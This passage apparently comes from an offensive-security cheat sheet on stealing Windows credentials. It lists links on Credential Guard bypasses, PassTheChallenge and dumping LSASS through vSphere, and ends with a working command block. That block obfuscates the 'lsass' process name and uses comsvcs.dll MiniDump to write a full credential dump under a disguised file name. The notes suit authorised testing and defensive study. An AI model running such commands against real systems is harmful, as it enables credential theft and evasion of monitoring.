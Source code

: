 Resolve `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variable offsets dynamically at runtime:

- [https://itm4n.github.io/credential-guard-bypass/](https://itm4n.github.io/credential-guard-bypass/)
- [https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp](https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp)

Two PoCs above merged:

- [https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99](https://gist.github.com/snovvcrash/43e976779efdd20df1596c6492198c99)



### PassTheChallenge

- [https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)
- [https://github.com/ly4k/PassTheChallenge](https://github.com/ly4k/PassTheChallenge)




## Attacking vSphere

- [https://jamescoote.co.uk/introducing-sharpsphere/](https://jamescoote.co.uk/introducing-sharpsphere/)
- [https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/](https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/)
- [https://github.com/JamesCooteUK/SharpSphere](https://github.com/JamesCooteUK/SharpSphere)




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)
* [https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py](https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/comsvcs.py)
* [https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
* [https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/](https://sp00ks-git.github.io/posts/LSASS-Encrypted-Dump/)
* [https://badoption.eu/blog/2023/06/21/dumpit.html](https://badoption.eu/blog/2023/06/21/dumpit.html)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```
